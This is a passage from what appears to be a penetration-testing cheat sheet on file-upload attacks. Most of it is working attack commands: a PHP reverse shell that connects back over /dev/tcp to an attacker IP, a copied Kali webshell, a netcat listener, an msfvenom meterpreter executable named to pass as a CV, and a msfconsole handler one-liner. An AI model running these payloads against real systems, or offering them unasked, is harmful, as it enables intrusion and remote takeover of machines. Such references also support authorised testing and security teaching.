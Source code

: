     # Edit some variables in the payload
    $ip = '<attacker-ip>'
    $port = 4444
    ```

- **Option 2**

    If you use Kali or Parrot OS, you can get the script as below.

    ```sh
    cat /usr/share/webshells/php/php-reverse-shell.php > shell.php
    ```

- **Option 3**

    ```php
    <?php shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1'"); ?>
    ```

Then open listener for getting a shell.

```sh
nc -lvnp 4444
```

After uploading it, reload the page in which the payload uploaded e.g. "/upload/shell.php".

### Reverse Shell for Windows

First create a malicious executable file using msfvenom.

```sh
# -f: Format
# -p: Payload
# -o: Output file
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<local-ip> LPORT=<local-port> -f exe -o cv-username.exe
```

Next start a listener for getting the target shell.

```sh
# -x: Execute command
sudo msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST <local-ip>; set LPORT <local-port>; exploit"
```

After getting the shell, we will get in the meterpreter, so we need to know the meterpreter’s commands. To get a list of command, run the following in the meterpreter.

```sh
# Usage command
meterpreter> ?
```

### Polyglot using Exiftool

